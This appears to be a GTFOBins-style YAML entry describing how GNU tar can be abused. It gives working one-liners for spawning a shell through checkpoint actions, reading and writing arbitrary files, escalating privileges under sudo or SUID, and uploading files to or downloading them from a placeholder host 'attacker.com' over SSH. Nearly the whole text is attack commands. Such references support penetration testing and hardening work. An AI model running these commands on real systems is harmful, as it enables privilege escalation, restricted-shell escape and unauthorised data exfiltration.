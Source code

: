 functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
      code: |
        TF=$(mktemp)
        echo '/bin/sh 0<&1' > "$TF"
        tar cf "$TF.tar" "$TF"
        tar xf "$TF.tar" --to-command sh
        rm "$TF"*
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        RHOST=attacker.com
        RUSER=root
        RFILE=/tmp/file_to_send.tar
        LFILE=file_to_send
        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
  file-download:
    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        RHOST=attacker.com
        RUSER=root
        RFILE=/tmp/file_to_get.tar
        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
